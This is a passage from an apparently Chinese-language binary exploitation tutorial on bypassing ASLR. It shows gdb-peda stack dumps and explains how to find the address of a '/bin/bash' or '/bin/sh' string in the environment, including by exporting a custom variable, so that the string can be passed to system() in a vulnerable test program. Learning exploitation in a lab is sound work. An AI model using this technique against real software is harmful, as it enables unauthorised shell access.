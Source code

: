 ```shell
0432| 0x7fffffffdeb8 --> 0x7fffffffea19 ("DEFAULTS_PATH=/usr/share/gconf/ubuntu.default.path")
0440| 0x7fffffffdec0 --> 0x7fffffffea4c ("PWD=/home/tianji/Desktop/sploit/bypassaslr_1")
0448| 0x7fffffffdec8 --> 0x7fffffffea79 ("LINES=24")
0456| 0x7fffffffded0 --> 0x7fffffffea82 ("HOME=/home/tianji")
0464| 0x7fffffffded8 --> 0x7fffffffea94 ("TEXTDOMAIN=im-config")
0472| 0x7fffffffdee0 --> 0x7fffffffeaa9 ("SSH_AGENT_PID=1606")
0480| 0x7fffffffdee8 --> 0x7fffffffeabc ("QT_ACCESSIBILITY=1")
0488| 0x7fffffffdef0 --> 0x7fffffffeacf ("XDG_SESSION_TYPE=x11")
0496| 0x7fffffffdef8 --> 0x7fffffffeae4 ("XDG_DATA_DIRS=/usr/share/ubuntu:/usr/local/share:/usr/share:/var/lib/snapd/desktop")
0504| 0x7fffffffdf00 --> 0x7fffffffeb37 ("XDG_SESSION_DESKTOP=ubuntu")
0512| 0x7fffffffdf08 --> 0x7fffffffeb52 ("LC_ADDRESS=zh_CN.UTF-8")
0520| 0x7fffffffdf10 --> 0x7fffffffeb69 ("GJS_DEBUG_OUTPUT=stderr")
0528| 0x7fffffffdf18 --> 0x7fffffffeb81 ("LC_NUMERIC=zh_CN.UTF-8")
0536| 0x7fffffffdf20 --> 0x7fffffffeb98 ("ALL_PROXY=socks://127.0.0.1:1080/")
0544| 0x7fffffffdf28 --> 0x7fffffffebba ("no_proxy=localhost,127.0.0.0/8,::1")
0552| 0x7fffffffdf30 --> 0x7fffffffebdd ("GTK_MODULES=gail:atk-bridge")
0560| 0x7fffffffdf38 --> 0x7fffffffebf9 ("NO_PROXY=localhost,127.0.0.0/8,::1")
0568| 0x7fffffffdf40 --> 0x7fffffffec1c ("COLUMNS=79")
0576| 0x7fffffffdf48 --> 0x7fffffffec27 ("WINDOWPATH=1")
0584| 0x7fffffffdf50 --> 0x7fffffffec34 ("SHELL=/bin/bash")
0592| 0x7fffffffdf58 --> 0x7fffffffec44 ("VTE_VERSION=5201")
```

我们可以看到“SHELL=/bin/bash”的地址:`0x7fffffffec34`,然后去掉`SHELL`,这样“/bin/bash”的地址就是`0x7fffffffec3a`

```
gdb-peda$ x/s 0x7fffffffec3a
0x7fffffffec3a:	"/bin/bash"
```

当然，我这里是"/bin/bash",所以这方法不可行。这时候，可以添加环境变量。

```
tianji@tianji-machine:~/Desktop/sploit/bypassaslr_1$ export ABC=/bin/sh
tianji@tianji-machine:~/Desktop/sploit/bypassaslr_1$ gdb -q vuln
Catchpoint 1 (exec)
Reading symbols from vuln...done.
gdb-peda$ b *main
Breakpoint 2 at 0x739: file vuln.c, line 17.
gdb-peda$ r
Starting program: /home/tianji/Desktop/sploit/bypassaslr_1/vuln 

[----------------------------------registers-----------------------------------]
RAX: 0x555555554739 (<main>:	push   rbp)
RBX: 0x0 
RCX: 0x555555554790 (<__libc_csu_init>:	push   r15)
RDX: 0x7fffffffdde8 --> 0x7fffffffe1bb ("CLUTTER_IM_MODULE=xim")
RSI: 0x7fffffffddd8 --> 0x7fffffffe18d ("/home/tianji/Desktop/sploit/bypassaslr_1/vuln")
RDI: 0x1 
RBP: 0x555555554790 (<__libc_csu_init>:	push   r15)
RSP: 0x7fffffffdcf8 --> 0x7ffff7a05b97 (<__libc_start_main+231>:	mov    edi,eax)
RIP: 0x555555554739 (<main>:	push   rbp)
R8 : 0x7ffff7dd0d80 --> 0x0 
R9 : 0x7ffff7dd0d80 --> 0x0 
R10: 0x0 
R11: 0x1 
R12: 0x555555554610 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffddd0 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x55555555472a <shell+16>:	call   0x5555555545d0 <system@plt>
   0x55555555472f <shell+21>:	mov    edi,0x0
```
